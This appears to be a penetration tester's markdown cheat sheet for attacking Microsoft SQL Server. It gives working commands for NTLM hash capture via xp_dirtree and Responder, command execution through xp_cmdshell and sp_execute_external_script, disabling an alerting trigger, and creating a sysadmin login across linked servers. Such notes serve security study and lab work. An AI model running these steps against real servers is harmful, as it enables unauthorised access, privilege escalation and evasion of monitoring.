 ## Connect to it 

- use mssqlclient.py from impacket, don't forget -windows-auth if you have


`mssqlclient.py <user>@<IP> -db <Database>`


- `IS_SRVROLEMEMBER ('sysadmin')`. If it returns 1, you have the highest privileges on the database.

---

## Test security of an MSSQL Server remotely

- ```msdat```

---

## Extract hash of the current user

- Run responder (`responder -I tun0`) and use `xp_dirtree` to see what hash you can catch : `EXEC master ..xp_dirtree '\\<ip>\<share>'`

![3b6677afecac41881691efb6eb7cc0e1.png](../../_resources/8f72c1f014924d5281187572899d109f.png)



---

## Basic enumeration

- Enumerate the database for credentials or sensitive data
- Exploit the database to obtain RCE and/or a reverse shell

- First attempt : xp_cmdshell : `enable_xp_cmdshell`


If it doesn't work, we are going to enumerate : 

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

```
SQL> select @@version;

SQL> select name,sysadmin from syslogins;

SQL> SELECT name FROM master..syslogins
name

SQL> SELECT name FROM master..syslogins WHERE sysadmin = '1';
```

### Enumerate current privileges : 

`SELECT entity_name, permission_name FROM fn_my_permissions(NULL, 'SERVER');`

### List the databases : 

`SELECT name FROM master..sysdatabases;`

- If `xp_cmdshell` will not allow the current user to gain RCE, another stored procedure could be used for RCE.

- A common MSSQL Metasploit module was used to list the procedures enabled for this user : `mssql_enum`

- If this one is present : `sp_execute_external_script`

- You can have RCE on the machine : `exec sp_execute_external_script @language = N'Python', @script=N'import os;os.system("ipconfig")'`

https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5

- List a database :
`SQL> select table_name,table_schema from <db>.INFORMATION_SCHEMA.TABLES;`

- To query a different DB in MSSQL, it’s [server].[db].[schema].[table].



## Linked Servers

https://blog.netspi.com/how-to-hack-database-links-in-sql-server/

- An SQL Server Link is where an MSSQL server allows a link to an external data source including other MSSQL servers, Oracle databases, Excel workbooks, etc. The link describes what resources are accesses and as what user. That can be taken advantage of if the link is not set up carefully.

- To check for linked servers, query the sysservers table :

`SQL> select srvname, isremote from sysservers;`

- For `isremote`, value 1 stands for remote server, 0 for linked server.

- The article uses `openquery` to run queries on other servers. `EXECUTE` can do it too. For example, to get the server name :

`SQL> EXECUTE ('select @@servername;') at [<servername>];`

- Check which user is configured to run commands:

`SQL> EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`

- Check which users are admin :

`SQL> EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [<servername>];
`

- Check your permissions :

`SQL> EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at <servername>;`

- Check if we can execute commands from one server to another :

`EXECUTE ('SELECT srvname, isremote from sysservers') at [<servername>]`

- Check in the other way, maybe you will run it as another user :

`SQL> EXEC ('EXEC (''select suser_name();'') at [<servername1>]') at [<servername2];`

- Add a new user with the new permission if so : 
Add sa User

```
SQL> EXECUTE('EXECUTE(''CREATE LOGIN <user> WITH PASSWORD = ''''<password>'''';'') AT [<servername1]') AT [<servername2>]
SQL> EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<user>'''', ''''sysadmin'''''') AT [<servername1]') AT [<servername2]
```



## xp_cmdshell

- Enable it : `enable_xp_cmdshell` or : `sp_configure 'show advanced options', '1'`

- Can't enable ? Disable Trigger. These triggers are a policy put in place to alert and block attempts to enable and use xp_cmdshell.  Triggers are stored in sys.server_triggers:

`SQL> select name from sys.server_triggers;`
name
------------------------------   
ALERT_xp_cmdshell 

- Then
`SQL> disable trigger ALERT_xp_cmdshell on all server`

- If a webserver is enabled try to executre sp_execute_external_script and see if you are logged as a different user : 
`SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';`

## Active Directory and local admin ?

If you have the admin credentials of the local machine, you can't execute bloodhound with evil winrm, as this account is not in the domain. But in the MSSQL console, you could be a domain account. So try execute SharpHound with this account using credentials of the administrator.

## MSSQL shell with upload capabilities 

https://alamot.github.io/mssql_shell/

`rlwrap python2 mssql_shell.py`
